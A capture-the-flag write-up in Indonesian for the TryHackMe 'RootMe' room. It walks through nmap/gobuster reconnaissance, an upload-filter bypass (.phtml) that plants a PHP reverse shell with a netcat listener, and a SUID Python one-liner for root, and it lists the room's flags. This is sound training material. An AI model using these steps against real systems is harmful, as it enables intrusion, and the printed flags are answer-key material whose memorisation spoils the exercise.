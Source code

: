 # CTF RootMe
- TryHackMe Challenge: https://tryhackme.com/room/rrootme
- IP Machine: 10.10.213.79

## Task 2 Reconnaissance
- Lakukan scanning menggunakan tool nmap dengan perintah: `nmap -sV -sC <IP Machine>`


- Lakukan web directory brute force menggunakan tool gobuster dengan perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

- Buka halaman web `http://<IP_Machine>` di browser

- Dari hasil brute force gobuster diatas ditemukan halaman **/panel**. Kita bisa membuka di browser dengan url `http://<IP_Machine>/panel` di browser. Setelah dibuka, halaman tersebut berisi form untuk upload file

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What version of Apache is running?
```sh
2.4.29
```

- **Pertanyaan:** What service is running on port 22?
```sh
ssh
```

- **Pertanyaan:** What is the hidden directory?
```sh
/panel/
```

## Task 3 Getting a shell
- Disini kita memanfaatkan celah keamanan **File Upload Vulnerabilities**. Salah satunya adalah dengan mengunggah file php reverse shell ke halaman upload file. Kita bisa mengunduh file php-reverse-shell di https://pentestmonkey.net/tools/web-shells/php-reverse-shell
- Setelah berhasil diunduh, edit file **php-reverse-shell.php** dengan menggunakan tool nano. Ubah ip dengan IP tun0 di komputer yang anda gunakan dan disini kita memakai port 4444 sebagai listening

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%204.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%205.JPG)

- Unggah file **php-reverse-shell.php** yang sudah diedit ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Setelah di submit ternyata muncul pesan bahwa extensi file tidak di izinkan

- Sekarang kita coba ubah ekstensi **.php** menjadi **.phtml** dengan perintah `mv php-reverse-shell.php php-reverse-shell.phtml`

- Unggah file **php-reverse-shell.phtml** ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Hasilnya file berhasil terunggah

- Buka terminal dan jalankan netcat dengan perintah `nc -lnvp <port>`

- Buka halaman web `http://<IP_Machine>/uploads` di browser. Disini terdapat file **php-reverse-shell.phtml** yang sudah kita unggah sebelumnya. Klik file tersebut untuk menjalankannya

- Setelah payload dijalankan, netcat berhasil terkoneksi dengan shell server

- Disini shell tidak stabil, kita bisa melakukan perintah berikut untuk mendapatkan shell server yang stabil
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

- File **user.txt** tidak ditemukan di home directory, jadi kita mencari di directory lain dengan perintah `find / -type f -name user.txt`. Ternyata file **user.txt** berada di path **/var/www/user.txt**

- Buka file **user.txt** dengan perintah `cat <path>`


- **Pertanyaan:** user.txt
```sh
THM{y0u_g0t_a_sh3ll}
```

## Task 4 Privilege escalation
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

- Dari perintah diatas ditemukan file **/usr/bin/python** yang bisa digunakan untuk mengeskalasi user root

- Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/python/#suid untuk mendapatkan akses root melalui SUID file python. Kita cukup menjalankan 1 baris perintah dibawah ini untuk mendapatkan akses root
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

- Sekarang kita tinggal membaca file **root.txt** sebagai root flag dengan perintah `cat /root/root.txt`

- **Pertanyaan:** Search for files with SUID permission, which file is weird?
```sh
/usr/bin/python
```

- **Pertanyaan:** root.txt
```sh
THM{pr1v1l3g3_3sc4l4t10n}
```